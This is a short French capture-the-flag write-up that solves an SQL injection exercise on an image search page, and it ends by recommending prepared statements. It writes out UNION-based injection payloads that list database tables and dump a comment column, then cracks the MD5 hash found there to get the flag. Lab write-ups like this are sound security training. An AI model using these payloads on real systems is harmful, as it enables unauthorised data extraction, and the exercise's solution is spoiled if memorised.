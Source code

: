 Sur la page de recherche de search image, lorsqu'on cherche un id on comprend qu'une requête SQL est faite. 

Après recherche, on trouve `1 OR 1=1 UNION req` pour faire une injection ou req est notre requête perso

Dans la plupart des bases de données, il y a une table `information_schema` qui répertorie les tables et colonnes on fait donc une recherche la dessus

```SQL
	1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns
```

Dans cette table trouve que la table list_images contient un champ id, url, title, comment,

Ne pouvant en sélectionner que deux après quelques requêtes on trouve qu'il faut utiliser le commentaire.

```SQL
	1 OR 1=1 UNION SELECT comment, null FROM list_images
```

On va sur https://md5decrypt.net : (md5):1928e8083cf461a51303633093573c46 => albatroz => (sha256)albatroz => the flag

**Comment Eviter**

Protéger les requêtes par des requêtes préparée.
